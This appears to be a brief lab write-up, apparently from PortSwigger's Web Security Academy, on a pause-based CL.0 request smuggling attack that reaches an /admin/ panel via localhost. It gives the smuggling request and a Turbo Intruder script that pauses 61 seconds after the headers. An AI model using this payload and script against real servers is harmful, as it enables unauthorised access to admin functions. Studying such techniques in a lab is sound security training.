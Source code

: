 ### Pause-based CL.0 + Broken Access Controll

Request:
```http
POST /resources HTTP/2
Host: 0aa800b00334602580c7089d00af0065.web-security-academy.net
Cookie: session=JA4fma1pgmjHNfyR6LeZIH4uVgAq5l8m
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 85

GET /admin/ HTTP/1.1
Host: localhost
```

Turbo-intruder script:
```py
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)


def handleResponse(req, interesting):
    table.add(req)
```

Result:
![](../../zzz_res/attachments/pause-based_CL0.png)
